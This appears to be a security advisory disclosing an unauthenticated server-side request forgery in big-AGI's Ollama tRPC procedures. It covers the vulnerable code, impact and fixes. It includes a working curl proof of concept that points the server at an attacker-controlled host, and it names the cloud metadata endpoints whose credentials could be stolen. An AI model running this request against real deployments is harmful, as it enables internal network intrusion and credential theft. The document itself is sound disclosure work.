

# Unauthenticated SSRF via Client-Controlled `ollamaHost` in big-AGI llmOllama tRPC Procedures

| Field | Value |
|---|---|
| Project | [enricoros/big-AGI](https://github.com/enricoros/big-AGI) |
| Vulnerability Type | Server-Side Request Forgery (CWE-918) |
| Severity | High — CVSS 3.1 Base Score: 8.2 |
| CVSS Vector | `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N` |
| Affected Versions | <= 2.1.1 (verified on 2.1.1 @ `d27aa51`, current master) |
| Authentication | None (tRPC `edgeProcedure` carries no auth check; no auth middleware is enabled by default) |

---

## Summary

The `llmOllama` tRPC router builds the upstream Ollama URL from a client-supplied `ollamaHost` string with no validation or allowlist, and the procedures that use it (`listModels`, `adminListPullable`, `adminPullModel`, `adminDelete`) are registered on `edgeProcedure`, which is a bare `t.procedure` — no authentication, no authorization. A single unauthenticated HTTP GET makes the big-AGI server issue server-side requests to any host and port the attacker chooses, covering GET (`/api/tags`), POST (`/api/pull`), and DELETE (`/api/delete`) with attacker-chosen bodies. Error messages echo portions of the upstream response, turning the SSRF into a readable one.

## Details

`ollama.access.ts` constructs the fetch target directly from client input:

```typescript
// src/modules/llms/server/ollama/ollama.access.ts:29
export function ollamaAccess(access: OllamaAccessSchema, apiPath: string) {
  const ollamaHost = llmsFixupHost(access.ollamaHost || env.OLLAMA_API_HOST || DEFAULT_OLLAMA_HOST, apiPath);
  return { headers: { 'Content-Type': 'application/json' }, url: ollamaHost + apiPath };
}
```

`llmsFixupHost` only fixes a missing `http(s)://` scheme and a trailing slash — it performs no host validation. The router procedures that consume it are equally bare:

```typescript
// src/modules/llms/server/ollama/ollama.router.ts
export const llmOllamaRouter = createTRPCRouter({
  listModels: edgeProcedure                       // no auth
    .input(accessOnlySchema)
    .query(async ({ input, signal }) => {
      const models = await listModelsRunDispatch(input.access, signal);
      ...
```

Inside the dispatch, the Ollama branch fetches `GET <ollamaHost>/api/tags`, then `POST <ollamaHost>/api/show` per model; `adminPullModel` issues `POST /api/pull` and `adminDelete` issues `DELETE /api/delete`. Combined, an unauthenticated attacker can make the deployment send requests with all major HTTP verbs and attacker-chosen JSON bodies to arbitrary internal endpoints. When the upstream response is not valid JSON, the fetch wrapper embeds up to ~480 characters of the response body in the tRPC error message (`trpc.router.fetchers.ts`), and `adminDelete` returns the full 2xx response body in its `'Ollama delete issue: <body>'` error — so responses from internal services can be exfiltrated through the API response itself.

## PoC

**Real-environment reproduction** (big-AGI 2.1.1 @ `d27aa51` run locally from source for this test, default configuration with no authentication; an attacker-controlled HTTP listener on `127.0.0.1:8765` logs every request it receives):

```bash
# Single unauthenticated request; ollamaHost points at the attacker's listener
curl -g 'http://127.0.0.1:3000/api/edge/llmOllama.listModels?input={"json":{"access":{"dialect":"ollama","ollamaHost":"http://127.0.0.1:8765"}}}'
```

Server response:

```
HTTP 200 {"result":{"data":{"json":{"models":[]}}}}
```

Attacker listener log — the big-AGI server process fetched the attacker-controlled host:

```
=== GET /api/tags from 127.0.0.1 ===
host: 127.0.0.1:8765
connection: keep-alive
content-type: application/json
user-agent: Next.js Middleware
x-middleware-subrequest: app/api/edge/[trpc]/route
```

No credentials, cookies, or prior access were involved — one GET request makes the server contact any URL the caller supplies.



---

## Impact

- **Internal network probing and interaction** — the deployment's network position is exposed to unauthenticated callers: cloud instance metadata (`169.254.169.254`, including credentials), container orchestration APIs, localhost-only admin panels, and internal microservices are all reachable.
- **Full verb coverage with attacker bodies** — unlike read-only SSRF, `adminPullModel` (POST) and `adminDelete` (DELETE) let an attacker issue state-changing requests with arbitrary JSON payloads to internal endpoints.
- **Response exfiltration** — non-JSON upstream responses are echoed in tRPC error messages (~480 chars), and `adminDelete` echoes complete 2xx bodies, so data retrieved from internal services is returned to the attacker.

### Remediation

1. Validate `ollamaHost` server-side: restrict it to a configured allowlist (or loopback + the documented Ollama port) and reject link-local (`169.254.0.0/16`), loopback-adjacent, and private ranges unless the deployment explicitly opts in.
2. Add authentication to the tRPC edge procedures (or a server-side gate for administrative procedures such as `adminPullModel`/`adminDelete`) — `edgeProcedure` being a bare `t.procedure` exposes the whole LLM-management surface to anonymous callers.
3. Do not echo upstream response bodies in error messages (`fetchTextOrTRPCThrow` / `adminDelete`), or cap and sanitize them; otherwise the SSRF remains readable even with egress filtering.
